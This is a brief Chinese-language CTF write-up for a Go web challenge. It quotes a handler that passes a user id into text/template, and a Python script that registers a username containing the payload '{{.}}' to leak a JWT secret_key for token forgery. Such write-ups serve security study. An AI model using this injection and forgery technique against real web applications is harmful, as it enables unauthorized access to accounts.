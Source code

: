tags:: CTF/SSTI/Golang_text_template, CTF/Golang

- # 思路
	- 打root_handler的SSTI拿到secret_key，然后伪造JWT token
- # SSTI
	- 看到
		- secret_key在每一个Account struct中，只需要打印出这个struct就能拿到
		- root_handler中存在SSTI
			- ```go
			  id, _ := jwt_decode(token)
			  acc := get_account(id)
			  tpl, err := template.New("").Parse("Logged in as " + acc.id)
			  if err != nil {
			  }
			  tpl.Execute(w, &acc)
			  ```
	- 干
		- ```python
		  username = fake_en_name() + ": {{.}}"
		  r = base_post(url + "/regist", data = {
		      "id": username,
		      "pw": "114514"
		  })
		  r = base_post(url + "/auth", data = {
		      "id": username,
		      "pw": "114514"
		  })
		  token = r.json()["token"]
		  r = base_post(url + "/", headers = {
		      "X-Token": token
		  })
		  print(r.text)
		  ```
-